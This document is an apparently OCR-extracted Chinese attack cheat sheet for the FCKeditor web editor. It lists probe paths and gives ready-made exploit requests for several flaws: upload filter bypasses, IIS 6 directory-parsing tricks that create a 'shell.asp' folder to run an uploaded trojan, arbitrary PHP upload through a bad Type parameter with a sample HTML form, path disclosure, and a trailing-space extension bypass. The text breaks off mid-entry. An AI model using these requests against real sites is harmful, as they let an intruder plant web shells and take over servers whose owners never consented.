   #### FCKeditor
	版本
	FCKeditor/_whatsnew.html
	编辑器
	FCKeditor/_samples/default.html
	FCKeditor/_samples/default.html
	FCKeditor/_samples/asp/sample01.asp
	FCKeditor/_samples/asp/sample02.asp
	FCKeditor/_samples/asp/sample03.asp
	FCKeditor/_samples/asp/sample04.asp
	fckeditor/editor/filemanager/connectors/test.html
	上传
	FCKeditor/editor/filemanager/upload/test.html
	FCKeditor/editor/filemanager/browser/default/connectors/test.html
	FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector
	FCKeditor/editor/filemanager/connectors/test.html
	FCKeditor/editor/filemanager/connectors/uploadtest.html
	上传路径
	FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
	FCKeditor被动限制策略所导致的过滤不严问题
	影响版本: FCKeditor x.x <= FCKeditor v2.4.3
	脆弱描述：FCKeditor v2.4.3中File类别默认拒绝上传类型：html|htm|php|php2|php3|php4|php5|phtml|pwml|inc|asp|aspx|ascx|jsp|cfm|cfc|pl|bat|exe|com|dll|vbs|js|reg|cgi|htaccess|asis|sh|shtml|shtm|phtmFckeditor 2.0 <= 2.2允许上传asa、cer、php2、php4、inc、pwml、pht后缀的文件
	上传后 它保存的文件直接用的$sFilePath = $sServerDir . $sFileName，而没有使用$sExtension为后缀。直接导致在win下在上传文件后面加个.来突破[未测试]。而在apache下，因为”Apache文件名解析缺陷漏洞”也可以利用之，详见”附录A”另建议其他上传漏洞中定义TYPE变量时使用File类别来上传文件,根据FCKeditor的代码，其限制最为狭隘。攻击利用:
	允许其他任何后缀上传
	利用2003路径解析漏洞上传木马
	影响版本: 索引底部附录B
	脆弱描述：
	利用2003系统路径解析漏洞的原理，创建类似bin.asp如此一般的目录，再在此目录中上传文件即可被脚本解释器以相应脚本权限执行。
	攻击利用:
	fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
	强制建立shell.asp目录：
	FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
	or
	FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp
	FCKeditor PHP上传任意文件漏洞
	影响版本: FCKeditor 2.2 <= FCKeditor 2.4.2
	脆弱描述：FCKeditor在处理文件上传时存在输入验证错误，远程攻击可以利用此漏洞上传任意文件。在通过editor/filemanager/upload/php/upload.php上传文件时攻击者可以通过为Type参数定义无效的值导致上传任意脚本。
	成功攻击要求config.php配置文件中启用文件上传，而默认是禁用的。攻击利用: (请修改action字段为指定网址)：
	<form id="frmUpload" enctype="multipart/form-data" action="http://www.xxxx.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">Upload a new file:<br>
	<input type="file" name="NewFile" size="50"><br>
	<input id="btnUpload" type="submit" value="Upload">
	</form>
	Note:如想尝试v2.2版漏洞，则修改Type=任意值 即可，但注意，如果换回使用Media则必须大写首字母M,否则LINUX下，FCKeditor会对文件目录进行文件名校验，不会上传成功的。
	FCKeditor 暴路径漏洞
	影响版本：aspx版FCKeditor
	攻击利用：
	FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/1.asp
	FCKeditor 文件上传“.”变“_”下划线的绕过方法
	影响版本: FCKeditor => 2.4.x
	脆弱描述：我们上传的文件例如：shell.php.rar或shell.php;.jpg会变为shell_php;.jpg这是新版FCK的变化。攻击利用:
	提交1.php+空格 就可以绕过去所有的,